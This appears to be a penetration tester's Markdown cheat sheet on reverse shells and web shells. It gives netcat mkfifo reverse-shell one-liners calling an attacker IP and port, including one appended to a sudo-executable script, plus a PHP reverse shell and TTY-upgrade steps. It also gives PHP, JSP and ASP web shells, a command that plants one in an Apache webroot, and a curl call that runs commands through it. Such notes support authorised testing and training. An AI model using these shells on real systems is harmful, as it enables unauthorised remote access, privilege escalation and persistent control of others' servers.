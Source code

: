 ```yaml
---
id: Reverse Shell
aliases:
  - Revshell
tags:
  - Pentest/Reverse-Shell
---
```


# Reverse Shell

- [RevShells.com](https://www.revshells.com/)
- [InternalAllTheThings - Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

<!-- Bash {{{-->
## Bash

```sh
script /dev/null -c bash
SHELL=/bin/bash script -q /dev/null
```

Append shell to sudo-executable file

```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <attacker_port> >/tmp/f' | tee -a <file.sh>
```

### Upgrade to Interactive Shell

```sh
export TERM=xterm
```

^Z (CTRL+Z)

```sh
stty raw -echo; fg
```
<!-- }}} -->

<!-- Python {{{-->
## Python

Check if Python is installed on the server

```sh
which python
```

```sh
which python3
```

### Interactive shell

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- `c`: Run the following Python code in the command line
- `import pty`: Import the pseudo-terminal module
- `pty.spawn("/bin/bash")`: Spawn a new process and connect it to the
  pseudo-terminal
<!-- }}} -->

<!-- PHP {{{-->
## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
<!-- }}}-->

<!-- Upgrading TTY {{{-->
## Upgrading TTY

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Map the TTY with the remote TTY

1. Hit `Ctrl + Z` to background the shell ang get back to the local terminal

```sh
^Z
```

2. Bring back the `netcat` shell to the foreground

```sh
stty raw -echo; fg
```

3. Hit `Enter` (or input `reset` and hit `Enter`)

4. Set shell variables to make the terminal full screen


```sh
# Show the `TERM` variable
export TERM=xterm
xterm-256color

# Show the values for `rows` and `columns`
stty size
67 318
```

Set the variables in the `netcat` shell

```sh
# Set `TERM`
export TERM=xterm-256color

# Set rows and columns
stty rows 67 columns 318
```
<!-- }}} -->

<!-- Web Shell {{{-->

# Web Shell

A Web Shell accepts the command through HTTP request parameters
(e.g. `GET`, `POST`) and prints the output to the webpage.

## Examples

PHP

```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

ASP

```asp
<% eval request("cmd") %>
```

## Uploading a Web Shell

The web shell should be placed into the remote host's web root (through a
vulnerability or upload feature) and executed through the web browser.

| Web Server | Default Webroot          |
| ---------- | ------------------------ |
| Apache     | `/var/www/html/`         |
| Nginx      | `/usr/local/nginx/html/` |
| IIS        | `c:\inetpub\wwwroot\`    |
| XAMPP      | `C:\xampp\htdocs\`       |

The following `bash` command writes the web shell to a Linux machine running
Apache.

```sh
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accessing Web Shell

The web shell may be accessed via a web browser or by using `cURL`.

```sh
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A web shell would bypass any firewall restriction as it will not open a new
connection on a port bup use `80`or `443`.
<!-- }}} -->
